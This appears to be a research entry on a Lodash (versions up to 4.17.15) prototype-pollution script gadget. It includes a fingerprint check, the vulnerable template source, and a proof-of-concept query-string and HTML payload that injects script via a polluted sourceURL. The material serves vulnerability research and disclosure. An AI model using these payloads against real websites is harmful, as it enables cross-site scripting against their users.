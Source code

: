 ## Lodash <= 4.17.15

URL: https://lodash.com/

### JS Fingerprint
```
return (typeof _ !== 'undefined' && typeof _.template !== 'undefined' && typeof _.VERSION !== 'undefined')
```

### Vulnerable code fragment
https://github.com/lodash/lodash/blob/ddfd9b11a0126db2302cb70ec9973b66baec0975/lodash.js#L14804-L14872
```js
var sourceURL = '//# sourceURL=' +
  (hasOwnProperty.call(options, 'sourceURL')
    ? (options.sourceURL + '').replace(/[\r\n]/g, ' ')
    : ('lodash.templateSources[' + (++templateCounter) + ']')
  ) + '\n';

...

var result = attempt(function() {
  return Function(importsKeys, sourceURL + 'return ' + source)
    .apply(undefined, importsValues);
});
```

### PoC

```
?__proto__[sourceURL]=%E2%80%A8%E2%80%A9alert(1)
```

```html
<script/src="https://cdnjs.cloudflare.com/ajax/libs/lodash.js/4.17.15/lodash.min.js"></script>
<script>
  Object.prototype.sourceURL = '\u2028\u2029alert(1)'
</script>
<script>
  _.template('test')
</script>
```